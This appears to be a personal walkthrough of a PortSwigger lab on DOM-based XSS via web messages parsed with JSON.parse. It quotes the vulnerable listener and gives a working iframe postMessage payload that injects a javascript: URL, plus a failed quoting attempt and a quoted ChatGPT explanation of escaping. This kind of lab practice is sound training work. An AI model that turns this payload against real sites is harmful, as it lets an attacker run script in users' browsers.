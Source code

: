 # [Lab: DOM XSS using web messages and](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)

## Lab

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

## Analysis

Find scripts:

```js
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

## Solutions

craft a response at exploit server:

- body:

  ```js
  <iframe src="https://id.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*")'>

  ```

## Fail attempt

wrong escape: `onload="this.contentWindow.postMessage('{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}','*')"`

chatGPT response:

- You cannot escape double quotes in that onload attribute because the value is already enclosed in double quotes. When you need to use double quotes inside a double-quoted string, you need to escape them using a backslash (\). However, since the entire attribute value is already enclosed in double quotes, attempting to escape the inner double quotes with a backslash will instead result in a syntax error. One possible solution is to use single quotes to enclose the attribute value instead of double quotes, like this:

  ```swift
  onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*")'  
  ```

- Alternatively, you can escape the double quotes with the HTML entity &quot;, like this:

  ```swift
  onload="this.contentWindow.postMessage('{&quot;type&quot;:&quot;load-channel&quot;, &quot;url&quot;:&quot;javascript:print()&quot;}','*')"
  ```
